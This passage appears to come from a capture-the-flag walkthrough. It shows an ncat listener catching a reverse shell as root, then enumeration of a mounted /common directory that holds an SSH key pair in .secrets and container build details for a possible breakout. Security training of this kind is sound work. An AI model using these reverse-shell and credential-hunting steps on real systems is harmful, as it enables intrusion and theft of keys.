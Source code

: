 Upload file ... 


```
$ ncat -lvp 6661
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::6661
Ncat: Listening on 0.0.0.0:6661
Ncat: Connection from 10.10.99.5.
Ncat: Connection from 10.10.99.5:55164.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell

[root@calvin app]# 

```

Immediately suspicious is that we have root right form the start. It may be assumed we're in a container or jail of some sort, and need to break out. 

Looking around the filesystem, there is a `/common` directory mounted with some interesting directories and files:

```
[root@calvin common]# ls -la /common
ls -la /common
total 20
drwxr-xr-x  5 root root 4096 Sep 23 18:36 .
drwxr-xr-x 36 root root 4096 Sep 26 18:48 ..
drwxrwxr-x  2 root root 4096 Sep 24 00:59 .secrets
drwxr-xr-x  6 root root 4096 Sep 23 18:32 containers
drwxr-xr-x  2 root root 4096 Sep 24 02:27 network

```

In the `.secrets` folder, there is an ssh key pair, but nowhere to really use it. 

```
[root@calvin .secrets]# ls -la
ls -la
total 16
drwxrwxr-x 2 root root 4096 Sep 24 00:59 .
drwxr-xr-x 5 root root 4096 Sep 23 18:36 ..
-r--r----- 1 root root 1679 Sep 23 17:51 bastion_key
-r--r----- 1 root root  393 Sep 23 17:51 bastion_key.pub
```

In the `containers` directory, there are subdirectories containing the build information for docker containers, including the IP addresses they have. 

For example, the `bastion` container (matching the keypair) has some important info in this files:

```
[root@calvin containers]# ls -la
ls -la
total 24
drwxr-xr-x 6 root root  4096 Sep 23 18:32 .
drwxr-xr-x 5 root root  4096 Sep 23 18:36 ..
drwxr-xr-x 2 root input 4096 Sep 24 00:58 bastion-live
drwxr-xr-x 5 root input 4096 Sep 23 23:34 blog-test
drwxr-xr-x 3 root root  4096 Sep 24 01:39 convert-live
drwxr-xr-x 5 root root  4096 Sep 24 03:49 waf-live
[root@calvin containers]# cd bastion-live
cd bastion-live

[root@calvin bastion-live]# ls -la
ls -la
total 24
drwxr-xr-x 2 root input 4096 Sep 24 00:58 .
```